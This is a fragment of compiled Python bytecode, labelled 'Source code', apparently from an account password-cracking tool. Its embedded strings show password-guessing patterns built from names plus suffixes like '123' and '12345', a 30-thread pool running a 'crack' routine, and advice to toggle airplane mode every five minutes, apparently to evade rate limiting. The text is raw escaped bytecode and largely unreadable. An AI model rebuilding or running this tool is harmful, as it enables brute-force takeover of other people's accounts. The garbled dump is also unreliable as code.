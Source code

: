 \x1b[1;97mz\x0f\n [#] method : \xda\x06mobile\xda\x04free)\x10\xda\x06sortedrX\x00\x00\x00\xda\x03id2rA\x00\x00\x00ru\x00\x00\x00\xda\x05range\xda\x06random\xda\x07randint\xda\x06insertr\t\x00\x00\x00rJ\x00\x00\x00r0\x00\x00\x00rI\x00\x00\x00rg\x00\x00\x00\xda\x06method\xda\x08passmenu)\tZ\x02huZ\x03tuaZ\x04mudaZ\x05bacotZ\x03bcmZ\x04bcmiZ\x04xmud\xda\x02xxZ\x02hcr3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00rv\x00\x00\x00\xb8\x00\x00\x00s>\x00\x00\x00\x04\x01\x08\x01\x0c\x01\x0c\x01\x02\xff\x08\x03\x04\x01\x0c\x01\x0c\x01\x08\x01\x08\x01\x0c\x01\x0e\x01\n\x01\x02\xfe\x08\x03\x08\x01\x10\x01\x0e\x01\x02\xfe\x08\x04\x06\x01\x06\x01\x18\x01\x08\x01\x08\x01\x0c\x01\x08\x01\x0c\x01\n\x02\n\x01rv\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x02\x00\x00\x00C\x00\x00\x00s^\x00\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01\x83\x01\x01\x00t\x03d\x02\x83\x01}\x00|\x00d\x03v\x00r\x18t\x04\x83\x00\x01\x00d\x00S\x00|\x00d\x04v\x00r!t\x05\x83\x00\x01\x00d\x00S\x00|\x00d\x05v\x00r*t\x06\x83\x00\x01\x00d\x00S\x00t\x07\x83\x00\x01\x00d\x00S\x00)\x06NzO\n [01] First name digit pass \n [02] All Name Password \n [03] All Name+ passwordz\x14\n [#] Select Pass : rW\x00\x00\x00rY\x00\x00\x00r{\x00\x00\x00)\x08r0\x00\x00\x00r\t\x00\x00\x00rI\x00\x00\x00rg\x00\x00\x00\xda\x05firstrs\x00\x00\x00\xda\x05name2r\x85\x00\x00\x00)\x01Z\x07passmenr3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00r\x85\x00\x00\x00\xd8\x00\x00\x00s\x14\x00\x00\x00\x06\x01\x10\x01\x08\x01\x08\x01\n\x01\x08\x01\n\x01\x08\x01\n\x01\n\x02r\x85\x00\x00\x00c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x06\x00\x00\x00\x08\x00\x00\x00C\x00\x00\x00s:\x01\x00\x00t\x00\x83\x00\x01\x00t\x01t\x02\x83\x01\x01\x00t\x01d\x01\x83\x01\x01\x00t\x03d\x02d\x03\x8d\x01\x8f\x83}\x00t\x04D\x00]w}\x01|\x01\xa0\x05d\x04\xa1\x01d\x05\x19\x00|\x01\xa0\x05d\x04\xa1\x01d\x06\x19\x00\xa0\x06\xa1\x00\x02\x02}\x02}\x03|\x03\xa0\x05d\x07\xa1\x01d\x05\x19\x00}\x04d\x08g\x01}\x05t\x07|\x03\x83\x01d\tk\x00rLt\x07|\x04\x83\x01d\nk\x00r=n.|\x05\xa0\x08|\x04d\x0b\x17\x00\xa1\x01\x01\x00|\x05\xa0\x08|\x04d\x0c\x17\x00\xa1\x01\x01\x00n\x1ft\x07|\x04\x83\x01d\nk\x00rX|\x05\xa0\x08|\x03\xa1\x01\x01\x00n\x13|\x05\xa0\x08|\x03\xa1\x01\x01\x00|\x05\xa0\x08|\x04d\x0b\x17\x00\xa1\x01\x01\x00|\x05\xa0\x08|\x04d\x0c\x17\x00\xa1\x01\x01\x00d\rt\tv\x00rw|\x00\xa0\nt\x0b|\x02|\x05\xa1\x03\x01\x00q\x13d\x0et\tv\x00r\x83|\x00\xa0\nt\x0c|\x02|\x05\xa1\x03\x01\x00q\x13|\x00\xa0\nt\x0b|\x02|\x05\xa1\x03\x01\x00q\x13W\x00d\x00\x04\x00\x04\x00\x83\x03\x01\x00d\x00S\x001\x00s\x96w\x01\x01\x00\x01\x00\x01\x00Y\x00\x01\x00d\x00S\x00)\x0fNz< [!] \x1b[1;96mTurn Airplane Mode On/Off Every 5 Minutes\x1b[1;0m\n\xe9\x1e\x00\x00\x00\xa9\x01Z\x0bmax_workersrr\x00\x00\x00r\x01\x00\x00\x00r\x03\x00\x00\x00r4\x00\x00\x00\xda\x06445566\xe9\x06\x00\x00\x00\xe9\x03\x00\x00\x00\xda\x03123\xda\x0512345r|\x00\x00\x00r}\x00\x00\x00)\rr0\x00\x00\x00r\t\x00\x00\x00rI\x00\x00\x00\xda\x04tredr\x7f\x00\x00\x00\xda\x05split\xda\x05lowerru\x00\x00\x00rA\x00\x00\x00r\x84\x00\x00\x00\xda\x06submit\xda\x05crackr}\x00\x00\x00\xa9\x06\xda\x04pool\xda\x06yuzong\xda\x03idf\xda\x03nmfZ\x03frs\xda\x03pwvr3\x00\x00\x00r3\x00\x00\x00r4\x00\x00\x00